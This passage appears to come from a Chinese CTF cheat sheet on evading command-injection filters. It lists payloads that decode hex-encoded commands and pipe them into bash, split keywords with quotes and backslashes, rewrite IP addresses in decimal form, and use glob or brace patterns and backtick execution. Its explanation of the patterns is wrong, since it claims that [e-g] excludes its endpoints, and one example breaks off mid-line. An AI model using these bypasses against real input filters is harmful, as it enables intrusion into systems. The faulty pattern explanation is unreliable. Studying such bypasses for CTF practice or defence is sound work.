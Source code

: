 payload

```
echo 6c73202f | xxd -r -p | bash
`echo 6c73 | xxd -r -p`
echo `6c73202f` | xxd -r -p | sh > 1.txt
```

##### 单双引号绕过

```
ca''t flag 
ca""t flag
l''s /
l""s /
```

##### 反斜杠绕过

```
l\s /
l\s /var/www/ht\ml
ca\t f\ag
```

##### 绕过ip中的句点

```
网络地址可以转换成数字地址，比如127.0.0.1可以转化为2130706433。
可以直接访问http:
```

[数字转ip地址](http://www.msxindl.com/tools/ip/ip_num.asp)

[ip地址转数字](http://www.msxindl.com/tools/ip/ip_num.asp)

[域名转数字ip](http://www.msxindl.com/tools/ip/ip_num.asp)

##### 正则匹配绕过

```
cat flag  =>   cat [e-g]lag
               cat f{k..m}ag
```

两种正则匹配稍有不同：

1.[]为开区间，并**不包含**左右边界

2.{}为闭区间，**包含**左右边界

所以可得，前者只会匹配f，而后者会匹配k,l,m

##### 内敛执行法绕过

```
cat `ls`
```

##### 黑洞绕过
